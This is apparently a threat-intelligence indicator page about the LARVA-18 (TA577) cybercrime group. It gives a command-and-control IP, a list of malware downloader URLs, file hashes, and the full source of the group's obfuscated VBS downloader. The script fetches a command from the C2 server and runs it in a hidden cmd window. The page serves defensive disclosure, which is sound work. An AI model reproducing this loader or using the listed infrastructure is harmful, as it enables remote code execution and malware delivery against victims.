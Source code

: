# LARVA-18
LARVA-18, also known as TA577 or the Tramp group, is a cybercriminal organization active since 2020, primarily serving as an initial access broker for other threat actors by distributing malware like QakBot or IcedID.

[Report](https://catalyst.prodaft.com/public/report/LARVA-18) can be found at Catalyst Platform.

# LARVA-18 Indicators of Compromise (IOC)

These IOCs were released as part of PTI team research.

## Command & Control Server
```
94.228.169.143
```

## Downloader URL
```
https://suratpeo.go.th/isua/
https://chatpipoca.net/trl/
https://smahrec.com/iat/
https://axecapital.ro/hi/
https://cosmosiit.com/oseu/
https://bligevale.co.zw/vr/
https://hunter-g.com/eein/
https://elburro.net/ofm/
https://superdreadiswag.com/frs/
https://winstonandfriendz.ca/ueiq/
https://hmas.mx/relo/
https://medsure.com.br/nma/
https://journeotravel.com/ii/
https://jhenaidahpoly.gov.bd/ninh/
```

## VBS Script
| MD5                              | SHA1                                     | SHA256                                                           |
| :------------------------------- | ---------------------------------------- | ---------------------------------------------------------------- |
| cb8f513d616a7e804694240bc3100f8a | 8eb4a6d8e107924222352c19aaeca7dbdc8de887 | 761a6c695940da83c3bfe42aae7e36792b300154f83a4c0dcaf47bb4a6497018 | 

```
osysrw = "Shell.Application"
lbjejjdjin = "cmd"
if lbjejjdjin = "a" then
MsgBox "Libr"
end if

olgprulvdluwo="http://94.228.169.143:2351/ghexmaeh"
gbdbbf="WINHTTP.WinHTTPRequest.5.1"
if lbjejjdjin = "a" then
MsgBox "Libr"
end if


With CreateObject(gbdbbf)
.Open "post", olgprulvdluwo, False  
.send
gbdbbf2 = .responseText
CreateObject(osysrw).ShellExecute lbjejjdjin, gbdbbf2 ,"","",0
End With
```
